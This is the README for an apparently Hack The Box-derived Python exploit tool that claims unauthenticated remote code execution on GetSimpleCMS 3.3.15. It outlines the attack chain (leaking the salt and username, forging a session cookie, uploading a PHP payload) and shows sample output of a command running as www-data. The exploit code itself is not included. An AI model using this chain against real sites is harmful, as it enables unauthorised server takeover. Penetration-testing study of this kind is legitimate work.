 # GetSimpleCMS Exploit

This script exploits a vulnerability in GetSimpleCMS version 3.3.15, allowing for unauthenticated remote code execution (RCE). The exploit leverages an arbitrary file upload vulnerability which can be triggered by leaking the CMS API key and targeting the session manager.

## Features

- Detects GetSimpleCMS version
- Retrieves necessary values (version, salt, username)
- Generates a session cookie
- Retrieves the nonce
- Uploads a PHP payload to achieve RCE
- Executes the provided command on the target server

## Requirements

- Python 3.x
- `requests` library
- `beautifulsoup4` library

## Installation

1. Clone the repository:

```bash
git clone https://github.com/yourusername/GetSimpleCMS-Exploit.git
cd GetSimpleCMS-Exploit
```


2. Install the required Python libraries:

```bash
pip install requests beautifulsoup4
```

## Usage

1. Run the script:

```bash
python GetSimpleCMS-RCE.py
```

2. Follow the prompts to enter the target URL and the command to execute.

## Examples

```plaintext
 _______  _______ _________   _______ _________ _______  _______  _        _______    _______  _______  _______             _______  _______  _______ 
(  ____ \(  ____ \\__   __/  (  ____ \\__   __/(       )(  ____ )( \      (  ____ \  (  ____ \(       )(  ____ \           (  ____ )(  ____ \(  ____ \
| (    \/| (    \/   ) (     | (    \/   ) (   | () () || (    )|| (      | (    \/  | (    \/| () () || (    \/           | (    )|| (    \/| (    \/
| |      | (__       | |     | (_____    | |   | || || || (____)|| |      | (__      | |      | || || || (_____    _____   | (____)|| |      | (__    
| | ____ |  __)      | |     (_____  )   | |   | |(_)| ||  _____)| |      |  __)     | |      | |(_)| |(_____  )  (_____)  |     __)| |      |  __)   
| | \_  )| (         | |           ) |   | |   | |   | || (      | |      | (        | |      | |   | |      ) |           | (\ (   | |      | (      
| (___) || (____/\   | |     /\____) |___) (___| )   ( || )      | (____/\| (____/\  | (____/\| )   ( |/\____) |           | ) \ \__| (____/\| (____/\
(_______)(_______/   )_(     \_______)\_______/|/     \||/       (_______/(_______/  (_______/|/     \|\_______)           |/   \__/(_______/(_______/                                                                                                                                               
    
Created By: H088yHaX0R / (HTB - AKA: Marz0)

Works for GetSimpleCMS 3.3.15

Enter the target URL (e.g., http://gettingstarted.htb): http://target-site.com
Enter the command to execute: id
[+] GetSimpleCMS version 3.3.15 detected.
[+] Theme edit successful!
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[*] Press Ctrl+C to exit.
[+] User aborted the script.
```


![Example 1](images/Example1.gif "Read /etc/passwd")

![Rev Shell](images/Example2_rce.gif "Get Reverse Shell")

## Code Explanation

The script is structured into a class GetSimpleCMSExploit which contains the following methods:

* **`__init__:`** Initializes the class with the target URL and command.
* **`check_vulnerability:`** Checks if the target is vulnerable by retrieving the CMS version and checking for necessary files.
* **`gscms_version:`** Retrieves the CMS version from the admin page.
* **`get_salt:`** Retrieves the salt value from the authorization.xml file.
* **`get_user:` **Retrieves the username from the users directory.
* **`gen_cookie:`** Generates a session cookie using the version, salt, and username.
* **`get_nonce:`** Retrieves the nonce value required for the POST request.
* **`upload_file:`** Uploads a PHP file to the server using the provided cookie and nonce.
* **`vulnerable:`** Checks if the target is vulnerable by attempting to access sensitive files.
* **`exploit:`** Executes the exploit by performing the above steps and uploading a PHP payload.

The script also includes a print_banner function to display a colorful banner, and the main execution block which handles user input and runs the exploit.

## Disclaimer

This script is for educational purposes only. Use it responsibly and only on systems you have permission to test. The author is not responsible for any misuse of this tool.

---
